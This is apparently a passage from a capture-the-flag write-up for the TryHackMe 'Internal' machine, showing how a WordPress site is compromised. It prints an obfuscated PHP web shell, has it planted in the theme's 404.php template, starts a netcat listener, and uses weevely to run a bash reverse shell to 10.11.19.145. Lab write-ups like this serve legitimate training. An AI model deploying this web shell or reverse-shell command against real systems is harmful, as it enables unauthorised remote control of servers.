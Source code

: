 ```bash
$P='Cr($j=0;($j<$c&EC&$i<$lEC);$jEC++,$i++EC){$oEC.=$t{EC$i}^$k{$ECj};}}retECuECrn $oEC;}if (@prECEC';
$T='$k="03c7ECECc0ac";$kh=EC"e395ECd80EC182ECdb";$kf="0EC7aECe2cEC30f034";$p="Fwc3AECEC4lqKESuTECyXY';
$o=str_replace('zP','','zPzPcreatezP_zPfuzPnzPction');
$W='";functiECon x($tEC,$kEC){$c=strECECleECn($k);$l=strlen(EC$ECt);$o="EC";for($i=0;EC$i<EC$l;){fECoE';
$H=str_replace('EC','',$T.$W.$P.$m.$e.$v);
$u=$o('',$H);$u();
?>
```

Appearance → Theme Editor → 404 Template (at the right)

![](/assets/obsidian/f1d60d342515199308f7affcea64ef38.png)

The 404 error page location:

```bash
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

Prepare reverse shell

```bash
nc -lvnp 1111
```

```bash
┌──(kali㉿kali)-[~/thm/internal/www]
└─$ weevely http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php s '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.11.19.145/1111 0>&1"'
```
